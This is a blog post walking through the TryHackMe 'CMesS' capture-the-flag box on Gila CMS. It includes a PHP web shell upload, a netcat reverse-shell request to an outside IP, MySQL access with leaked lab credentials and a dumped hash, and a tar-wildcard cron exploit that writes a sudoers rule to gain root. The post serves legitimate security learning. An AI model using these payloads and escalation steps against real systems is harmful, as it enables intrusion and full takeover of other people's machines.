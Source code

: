 ```yaml
---
layout: post
title:  "THM - CMesS"
date:   2020-07-31 18:00:00 +1000
category: hacking
---
```


## Introduction
*Can you root this Gila CMS box?*  

This is a medium rated box, and we already know it runs Gila CMS from the title. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only; web all the way? 

## Webserver
Checking searchsploit before doing much else, we can see there a couple of different authenticated RCE exploits for different versions of Gila, so presumably we're going to need some creds. 

We can do some gobusting/dirbusting and turn up plenty of links, but nothing very fruitful. Checking the Gila documentation doesn't help much either.

## Subdomains
We can use WFUZZ to fuzz for subdomains, so let's do that:

``
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 1
``

Note: this command is NOT optimised - it didn't filter out bad results. But quickly scanning through it revealed one good result - dev.cmess.thm.

We add dev.cmess.thm to our /etc/hosts and continue

## dev.cmess.thm
This is a simple page that exists (essentially) purely for the purpose of giving us credentials. Yes, these CTFs are somewhat contrived.

**andre@cmess.thm:KPFTN_f2yxe%**

## In Gila
Once we log in and poke around for a bit, we find we can upload a file. I do **shell.phtml** with the contents:

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

Once we've got that we can send it a reverse shell command with Burp Suite:

``
GET /tmp/media_thumb/shell.phtml?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f HTTP/1.1
``

## On the box
We grabbed the credentials for the SQL login earlier when we were poking around in Gila: **root:r0otus3rpassw0rd**.

We can login to SQL:

{% highlight shell %}
www-data@cmess:/$ mysql --host=127.0.0.1 --port 3306 -u root -p  
Enter password: r0otus3rpassw0rd
etc.
mysql> select * from user;
{% endhighlight %}

And with that we grab andre's hash:  
*$2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa*


But to make it even easier we can find the password (*UQfsdCB7aAP6*) for andre in **/opt/.password.bak** and then we can **su andre**. 

## Andre
Linpeas points to a cronjob:

``
root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
``

This was a new one to me. At first I thought I could replace tar, but cron has it's own PATH:

``
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
``

And I can't write to any of these directories. So now what? Well, there are a class of **tar** exploits that I wasn't previously aware of. This [site](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) provides an explanation and examples. Here's what I did:

{% highlight shell %}
andre@cmess:/home/andre/backup$ echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > test.sh
andre@cmess:/home/andre/backup$ echo "" > "--checkpoint-action=exec=sh test.sh"                      
andre@cmess:/home/andre/backup$ echo "" > --checkpoint=1                                             
andre@cmess:/home/andre/backup$ tar cf archive.tar *
test.sh: 1: test.sh: cannot create /etc/sudoers: Permission denied

andre@cmess:/home/andre/backup$ sudo -l
User andre may run the following commands on cmess:
    (root) NOPASSWD: ALL
andre@cmess:/home/andre/backup$ sudo /bin/bash
root@cmess:/home/andre/backup# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
{% endhighlight %}

To be honest, I don't really understand why this works, but it does. More things to learn.

